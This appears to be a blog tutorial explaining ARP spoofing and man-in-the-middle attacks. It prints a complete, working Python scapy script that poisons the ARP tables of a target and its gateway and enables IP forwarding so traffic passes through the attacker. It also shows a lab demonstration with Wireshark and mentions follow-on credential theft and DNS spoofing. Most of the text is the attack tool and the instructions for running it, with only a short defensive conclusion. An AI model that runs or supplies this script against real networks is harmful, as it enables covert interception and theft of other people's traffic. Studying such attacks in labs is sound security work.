

A MITM ( Man-in-the-middle) attack is a type of cyber attack where the attacker secretly intercepts and alters communication between two parties who believe they are communicating directly with each other. This allows the attacker to essentially "sit in the middle" of the communication and listen in on, or even modify, the messages being exchanged.<br>
In this article we will be writing our own python script to perform an ARP spoofing attack.

### [](#header-3) What is an ARP spoof attack exactly
 Man-in-the-middle (MITM attacks and ARP spoofing are two related techniques that are often usedby attackers to gain access to a network and intercept traffic.
One way that attackers can perform an MITM attack is through a technique called ARP spoofing. ARP, or Address Resolution Protocol, is a protocol that is used by devices on a local network to map IP addresses to physical addresses (such as the MAC address of a network interface). In an ARP spoofing attack, the attacker sends forged ARP messages to other devices on the network, essentially tricking them into thinking that the attacker's device has the same IP address as another device on the network. This allows the attacker to intercept and potentially modify traffic intended for the other device.

### [](#header-3) Final product

Before we execute the ARP spoof attack, let's check our attacker machine machine and target machine ip addresses.
<p align="center">
  <br>
  <em>Attacker ip address</em>
</p>

<p align="center">
  <br>
  <em>Target ip address</em>
</p>

Attaker machine ip address: <b>192.168.56.102</b><br>
Target machine ip address: <b>192.168.56.101</b><br>
Gateway ip address: <b>192.168.56.100</b><br>

Now let's have a look at each machine ARP table and note what MAC address is mapped to what ip address.

<p align="center">
  <br>
  <em>Attacker ARP table before the attack</em>
</p>

<p align="center">
  <br>
  <em>Target ARP table before the attack</em>
</p>

Attaker machine: <b>192.168.56.102</b> => <b>08:00:27:85:47:4e</b><br>
Target machine: <b>192.168.56.101</b> => <b>08:00:27:8a:47:f5</b><br>
Gateway ip address: <b>192.168.56.100</b> => <b>08:00:27:ea:7b:5a</b><br>

Now let's execute the attack using our tool by executing the following command.

`python arp-spoof.py -t <target_ip_address> -g <gateway_ip_address>`

<p align="center">
  <br>
  <em>Executing the ARP spoof attack</em>
</p>

While executing the attack, let's us check the ARP table of the target has changed.

<p align="center">
  <br>
  <em>Target ARP table During the attack</em>
</p>

<b>Success!</b> We can clearly see that we successfully poisoned the ARP table of the target machine as the MAC address of the attacker machine is mapped with the ip address of the gateway. Now each time the target sends a packet to the gateway it passes through the attacker machine.<br>
To demonstrate the attack, let's ping the gateway using the target machine.

<p align="center">
  <br>
  <em>Pinging the gateway</em>
</p>

In the attacker machine, let's monitor the traffic using wireshark. 

<p align="center">
  <br>
  <em>Wireshark traffic capture</em>
</p>
As you can see in the figure above, the two ping requests are passing through the attacker machine (in both ways: from target to gateway and from gateway to target).<br>
Keep in mind that this is a simple demonstration with the ICMP protocol. We are able to intercept every type of packet, and this allows us to perform more advanced attacks such as DNS spoofing, code injection, steal credential etc.. 

### [](#header-3) Let's code

```python
import scapy.all as scapy
import subprocess
import time
import argparse
```
The `get_target_mac` is using the `scapy` library to send an ARP request to a given IP address and return the MAC address of the target device. The `arp_request` variable is created by using the `scapy.ARP()` function and passing in the destination IP address as an argument. This creates an ARP request packet that is targeted at the specified IP. The `broadcast` variable is created by using the `scapy.Ether()` function and setting the dst parameter to the broadcast MAC address. This creates an Ethernet frame that is set to be broadcast to all devices on the network. The `arp_request_broadcast` variable is created by combining the `broadcast` and `arp_request` packets using the `/` operator. This creates a packet that is both an ARP request and a broadcast Ethernet frame. The `scapy.srp()` function is then used to send the arp_request_broadcast packet and capture any responses. If any responses are received, the function returns the MAC address of the first response in the list. If no responses are received, the function returns `None`.
```python
def get_target_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    arp_request_broadcast = broadcast/arp_request
    answered_list= scapy.srp(arp_request_broadcast,timeout=1,verbose=False)[0]
    if answered_list:
        return answered_list[0][1].src
    return None
```

The `spoof()` function takes four arguments: the IP and MAC address of the target host, and the IP and MAC address of the default gateway. The function creates two `scapy.ARP` objects, which are used to construct ARP packets that will be sent to the target host and the gateway. The `op` parameter is set to `2` to indicate that these are response packets, and the `pdst` and `psrc` parameters are set to the IP addresses of the target host and gateway, respectively. The `hwdst` parameter is set to the MAC addresses of the target host and gateway. <br>
Once the `scapy.ARP` objects have been created, the `scapy.send()` function is used to send the packets to the target host and gateway. This causes the target host and gateway to update their ARP tables with the incorrect information from the spoofed packets. As a result, the target host will send any traffic intended for the gateway to the attacker instead, allowing the attacker to intercept and potentially modify the traffic.

```python
def spoof (host_ip,host_mac,gateway,gateway_mac):
    packet1 = scapy.ARP(op=2,pdst=host_ip,hwdst=host_mac, psrc=gateway)
    packet2 = scapy.ARP(op=2,pdst=gateway,hwdst=gateway_mac, psrc=host_ip)
    scapy.send(packet1,verbose=False)
    scapy.send(packet2,verbose=False)
```
The `restore()` function restores the ARP tables of a target host and gateway after an ARP spoofing attack.<br>
Once the `scapy.ARP` objects have been created, the `scapy.send()` function is used to send the packets to the target host and gateway. This causes the target host and gateway to update their ARP tables with the correct information from the restored packets. As a result, the target host will no longer send traffic intended for the gateway to the attacker, and the network will be restored to its normal functioning.

```python
def restore(host_ip,host_mac,gateway,gateway_mac):
    packet1 = scapy.ARP(op=2,pdst=host_ip,hwdst=host_mac, psrc=gateway, hwsrc=gateway_mac)
    packet2 = scapy.ARP(op=2,pdst=gateway,hwdst=gateway_mac, psrc=host_ip, hwsrc=host_mac)
    scapy.send(packet1 , verbose=False)
    scapy.send(packet2 , verbose=False)
```
The code uses the `argparse.ArgumentParser()` function to create a `parser` object that can be used to parse command line arguments. The `parser.add_argument()` method is then used to specify that the script expects two required arguments: the IP address of the target host (`--target`) and the IP address of the default gateway (`--gateway`). The `parser.parse_args()` method is used to parse the command line arguments and store them in the `args` object.<br>
The `get_target_mac()` and `spoof()` functions are then used to perform the ARP spoofing attack. The `get_target_mac()` function is called to get the MAC addresses of the target host and gateway, and the `spoof()` function is called to send the spoofed ARP packets to the target host and gateway.<br>
The script then enters a loop in which it sends spoofed ARP packets to the target host and gateway every 3 seconds. The `p` variable is incremented by 2 each time a packet is sent, and the value of `p` is printed to the screen to show the number of packets that have been sent. This continues until the user interrupts the script by pressing `CTRL-C` on the keyboard.<br>
When the script is interrupted, the `restore()` function is called to restore the ARP tables of the target host and gateway. This causes the target host and gateway to update their ARP tables with the correct information, which stops the ARP spoofing attack and restores the network to its normal functioning. The script then prints a message to the screen indicating that the spoofing has stopped and the network has been restored.

```python
def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('-g','--gateway', type=str, required=True)
    parser.add_argument('-t','--target', type=str, required=True)
    args = parser.parse_args()
    try:
        p=0
        target_mac = get_target_mac(args.target)
        gateway_mac = get_target_mac(args.gateway)

        subprocess.call('echo 1 > /proc/sys/net/ipv4/ip_forward',shell=True)
        while True:
            spoof(args.target,target_mac,args.gateway,gateway_mac)
            p+=2
            print("\r\033[1;31;40mSending packets ["+ str(p) +"]\033[0m" ,end='')
            time.sleep(3)
    except KeyboardInterrupt:
        subprocess.call('echo 0 > /proc/sys/net/ipv4/ip_forward',shell=True)
        restore(args.target,target_mac,args.gateway,gateway_mac)
        print("\nRestoring order ..")
        print("[+] Spoofing Stopped")
```

### [](#header-3) Cocnlusion
MITM attacks and ARP spoofing can be highly effective at intercepting network traffic, and they can be difficult to detect and defend against. However, there are steps that individuals and organizations can take to protect themselves from these types of attacks. This can include using encryption to secure network traffic, implementing network monitoring and intrusion detection systems, and educating users about the risks of MITM attacks and how to protect against them. By understanding the risks and taking appropriate measures, it is possible to protect against MITM attacks and ARP spoofing.<br>
The full code of the script is available on [github](https://github.com/Ahmed-Z/arp-spoofer).<br>
HAPPY HACKING.